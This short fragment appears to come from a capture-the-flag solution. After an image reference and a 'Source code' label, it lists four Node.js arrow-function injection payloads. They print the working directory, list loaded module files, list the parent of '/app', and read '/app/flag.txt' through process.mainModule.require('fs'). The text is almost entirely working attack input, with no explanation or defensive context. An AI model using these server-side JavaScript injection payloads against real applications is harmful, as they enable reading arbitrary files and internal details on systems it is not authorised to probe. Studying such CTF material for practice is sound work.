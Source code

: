 (a => process.cwd())()

(a => process.mainModule.children.map(child => child.filename))()
(a => process.mainModule.require('fs').readdirSync('/app/..'))()
(a => process.mainModule.require('fs').readFileSync('/app/flag.txt', 'utf-8'))()
